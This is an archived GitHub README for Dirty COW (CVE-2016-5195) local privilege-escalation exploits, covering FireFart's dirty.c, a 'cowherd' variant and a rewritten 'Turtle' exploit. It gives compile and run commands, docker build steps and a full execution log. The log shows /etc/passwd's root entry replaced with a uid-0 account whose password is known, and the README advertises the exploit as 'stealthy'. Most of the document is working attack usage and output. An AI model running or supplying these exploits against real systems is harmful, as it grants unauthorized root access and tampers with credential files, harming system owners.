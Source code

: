 > [!IMPORTANT]
> This repository has been archived because the final version, [“Turtwig Rides Dirty COW (CVE-2016-5195)”](https://github.com/FrancoisCapon/TurtwigRidesDirtyCOW) is now available.

# DirtyCow Origin :cow:

This exploit uses the pokemon exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line.
The user will be prompted for the new password when the binary is run.
The original /etc/passwd file is then backed up to /tmp/passwd.bak and overwrites the root account with the generated line.
After running the exploit you should be able to login with the newly created user.

To use this exploit modify the user values according to your needs.

The default user being created is `firefart`.

Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
  https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c

Compile with:

```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

Then run the newly create binary by either doing:
```bash
./dirty
```

or

```bash
 ./dirty my-new-password
 ```
Afterwards, you can either `su firefart` or `ssh firefart@...`

**DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!**

```bash
mv /tmp/passwd.bak /etc/passwd
```

Exploit adopted by Christian "FireFart" Mehlmauer

https://firefart.at

# DirtyCow with Cowherd :cow: :woman_farmer:

In this version the additional `cowherd thread` stop the original threads when the job is done.

## Compile for Debian Squeeze 32
* Use a docker target os to compile the exploit 
```
docker run --platform linux/386 -it -v $(pwd):/tmp debian/eol:squeeze
root@07ccd56551fe:/# apt-get update
...
root@07ccd56551fe:/# apt-get install gcc
....
root@07ccd56551fe:/# cd /tmp
root@07ccd56551fe:/tmp# head -n 20 dirty.c
...
root@07ccd56551fe:/tmp# head -n 20 cowherd.c
...
```
* Follow the compilation instructions
* Use it as the original


# Turtle :rabbit: :turtle:

This is a completely rewriting that "better" exploit of the dirty cow flaw by
1. optimizing the substitution algorithm
    * works by chunks not single character
    * watches each chunk and stop trying if the chunk's substitution is done
1. not stressing the scheduler so non atomic operations has better chance to appear

Which results that the exploit is
* **stealthy** because it don't stress the machine beacuse (not overload)
* **very fast**, the execution time is some `µs` versus some `seconds`

## Compile for Debian Wheezy 64

* Use a docker target os to compile the exploit 
```
docker run --platform linux/amd64 -it -v $(pwd):/tmp debian/eol:wheezy
root@07ccd56551fe:/# apt-get update
...
root@07ccd56551fe:/# apt-get install gcc
....
root@07ccd56551fe:/# cd /tmp
root@07ccd56551fe:/# gcc -pthread main.c -o turtle
```
## Use

```
$ ./turtle 

⛔ usage: build_name race_length race_interval advisor_interval

$ ./turtle 256 1 3

       236 µs	● run process[MAIN] >> thread[main]
       340 µs	⚬ ● run process[MAIN] >> thread[main] >>> function[main_setup]
       421 µs	⚬ ⚬ ● run process[MAIN] >> thread[main] >>> function[main_setup -> main_backup_passwd_file]
     4,023 µs	⚬ ⚬ ● end process[MAIN] >> thread[main] >>> function[main_setup -> main_backup_passwd_file]
     4,067 µs	⚬ ⚬ ● run process[MAIN] >> thread[main] >>> function[main_setup -> main_map_passwd_file_to_memory]
     4,154 µs	⚬ ⚬ ● end process[MAIN] >> thread[main] >>> function[main_setup -> main_map_passwd_file_to_memory]
     4,169 µs	⚬ ● end process[MAIN] >> thread[main] >>> function[main_setup -> main_setup]
     4,299 µs	● run process[POKEMON (MAIN is now POKEMON)] >> thread[main]
     4,328 µs	⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_setup]
     4,352 µs	⚬ ● run process[COWHERD -> ADVISOR] >> thread[main]
     4,488 µs	⚬ ⚬ ● run process[POKEMON -> ADVISOR] >> thread[main] >>> function[advisor_setup]
     4,985 µs	⚬ ● run process[POKEMON -> ADVISOR] >> thread[advisor]
     5,030 µs	⚬ ⚬ ● run process[POKEMON -> ADVISOR] >> thread[advisor] >>> function[advise_kernel]🐮🔄
     5,593 µs	⚬ ● end process[COWHERD -> POKEMON] >> thread[main] >>> function[pokemon_setup]
     5,778 µs	⚬ ● run process[COWHERD -> POKEMON] >> thread[main] >>> function[pokemon_run]🐮🔄
     5,794 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     5,877 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     5,892 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     5,906 µs	● root:x:0:0:root:/root:/bin/bash
     5,915 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     7,570 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     7,610 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_read_passwd_root_line]
     7,618 µs	⚬ ⚬ ● run process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     7,627 µs	● 0:002UBq03Nvvos:0:0:::/bin/bash
     7,631 µs	⚬ ⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run -> pokemon_print_passwd_root_line]
     7,717 µs	⚬ ⚬ ● run process[POKEMON -> ADVISOR] >> thread[main] >>> function[advisor_sigterm]
     7,768 µs	● ADVISOR: .........34 memory advise
     7,790 µs	⚬ ⚬ ● end process[POKEMON -> ADVISOR] >> thread[main] >>> function[advisor_sigterm]
     7,816 µs	⚬ ● end process[POKEMON -> ADVISOR] >> thread[main]
     8,045 µs	● POKEMON: ......1,024 ptrace poketext
     8,054 µs	⚬ ● end process[POKEMON] >> thread[main] >>> function[pokemon_run]🐮🔄
     8,061 µs	● end process[POKEMON] >> thread[main]

$ head -n 3 /etc/passwd
0:002UBq03Nvvos:0:0:::/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
...
```
Now
* the name of the user having the `id 0` (former `root`) is `0` and is password too :hushed:
* the integrity the second line of the `/etc/passwd` is preserved because the lenght of the first line is unchanged :wink:


